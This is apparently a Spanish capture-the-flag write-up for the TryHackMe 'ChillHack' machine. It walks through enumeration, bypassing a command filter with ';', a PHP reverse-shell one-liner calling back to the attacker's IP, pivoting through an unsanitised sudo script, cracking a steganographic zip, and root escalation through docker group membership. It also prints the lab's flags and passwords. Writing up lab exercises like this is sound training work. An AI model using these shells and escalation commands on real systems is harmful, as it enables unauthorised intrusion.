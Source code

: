 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía, el descubrimiento de contraseñas por fuerza bruta y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-steghide-FF5200?style=for-the-badge&logo=steghide&logoColor=white" />
  <img src="https://img.shields.io/badge/-unzip-000000?style=for-the-badge&logo=unzip&logoColor=white" />
  <img src="https://img.shields.io/badge/-zip2john-EBAF00?style=for-the-badge&logo=zip2john&logoColor=white" />
  <img src="https://img.shields.io/badge/-john-F4B942?style=for-the-badge&logo=john&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío . Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una conxexión FTP.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Obtener una *shell* a partir de un *script*.
- Crear un servidor con *python3*.
- Obtener información oculta en imágenes.
- Descomprimir archivos.
- Crackear contraseñas.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*, *Python3*, *Steghide*,  *Unzip*, *Zip2john*, *John*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.

El primer paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además, se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible acceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 7.6p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.49*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerto 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos, el cual tiene una *blacklist*, por medio de la cual, se están filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando palabras cambiando caracteres por el signo de interrogación, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: '*Anurodh told me that there is some filtering on strings being put in the command -- Apaar*'.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado, el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así pues, antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto, solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverse shell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto, se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra el archivo oculto '.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la que quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera, obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>

Una vez hecho esto se comprueba el usuario alcanzado y su 'id'.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)

Ahora ya se tienen los suficientes permisos para leer el archivo 'local.txt' (/home/apaar), donde se encuentra la primera de las *flags*.

**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

A continuación se inspecciona el contenido del directorio '/var/www/files', en el cual hay un archivo *php* llamado 'hacker.php' que se puede ejecutar con el usuario Apaar. En este se nombra la imagen 'hacker-with-laptop_23-2147985341.jpg' y nos induce a analizarla más allá de lo que pueda mostrar a simple vista. Una referencia clara a buscar información oculta en la imagen por medio de esteganografía.

![Captura de pantalla 2025-04-13 213653](https://github.com/user-attachments/assets/52295999-99d8-499c-8ef8-48722fa0706f)

Así pues, primero se debe descargar la imagen creando un servidor desde la carpeta contenedora de la imagen con el módulo *http.server*, de **Python3**, e indicando el puerto en el que se hospedará el servidor. Desde el navegador se puede comprobar su creación y la existencia de la imagen junto con el resto de archivos del directorio en cuestión.

<code> python3 -m http.server 8000</code>

![Captura de pantalla 2025-04-13 214254](https://github.com/user-attachments/assets/a45013b7-436a-4c73-a04e-4758747414f1)

Desde la máquina atacante se procede a descargar el *jpg*, indicando la dirección del recurso. Seguidamente se extrae la información de la imagen con la herramienta **Steghide**, la cual vuelca los datos en el archivo 'backup.zip'. Se puede descomprimir con la herramienta **unzip** pero está protegido con contraseña, por lo que será necesario encontrar esta primero. Inicialmente se saca el *hash* del archivo con el binario **zip2john** y después se trabajará con él.

<code>wget http://10.10.118.151:8000/hacker-with-laptop_23-2147985341.jpg</code>

<code>steghide extract -sf hacker-with-laptop_23-2147985341.jpg </code>

<code>unzip backup.zip</code>

<code>zip2john backup.zip > pwd</code>

![Captura de pantalla 2025-04-13 215809](https://github.com/user-attachments/assets/0a35f730-e470-4fd8-954f-b27e4078ad1d)

Con **John** se prueban las diferentes palabras de la lista 'rockyou.txt' contra el archivo 'pwd' que contiene el *hash* antes obtenido. Finalmente, la herramienta encuentra la contraseña, siendo esta 'pass1word'. Ahora ya se puede descomprimir el *zip* indicándole la *password* encontrada y consiguiendo el archivo 'source_code.php'. 

<code>john --wordlist=/usr/share/wordlists/rockyou.txt pwd</code>

![Captura de pantalla 2025-04-13 220330](https://github.com/user-attachments/assets/3652c4fd-c63c-444b-9d21-7608617a8926)

En el código se puede ver como en una sentencia *if*, se iguala una contraseña con su forma en base64 para entrar dentro de la condición. Por lo que se intentará decodificar tal *password* con el siguiente comando.

<code>echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d</code>

![Captura de pantalla 2025-04-13 220539](https://github.com/user-attachments/assets/3a1d4338-44cc-40d6-909c-a95dc6a3773c)

Una vez obtenida la contraseña (*!d0ntKn0wmYp@ssw0rd*), se prueba con el usuario 'anurodh' y se pivota de nuevo de usuario. Se averigua que este pertenece al grupo *docker*, por lo que será útil para la escalada de privilegios. Esto es así porque este grupo otorga prácticamente permisos de administrador (*root*), puesto que el *daemon* de *Docker* tiene acceso completo al sistema. Así que cualquiera que esté en ese grupo podría, indirectamente, hacer cosas como *root*.

Por esto se pretenden ver las imágenes del *Docker*, que son como plantillas para crear contenedores. De las dos existentes nos quedamos con la más reciente *Alpine*. Con esto se puede ir a la página [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) para *bypasear* el binario *Docker* y realizar la escalada de privilegios.

<code>docker images</code>

<code>docker run -v /:/mnt --rm -it alpine chroot /mnt sh</code>

Finalmente, se ha alcanzado el usuario *root* y solo queda dirigirse a su directorio y obtener la *flag* del archivo 'proof.txt'.

![Captura de pantalla 2025-04-13 221157](https://github.com/user-attachments/assets/3a5ccc6e-22a7-44e0-8cdd-bec5a8c2c76b)

**Flag:{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
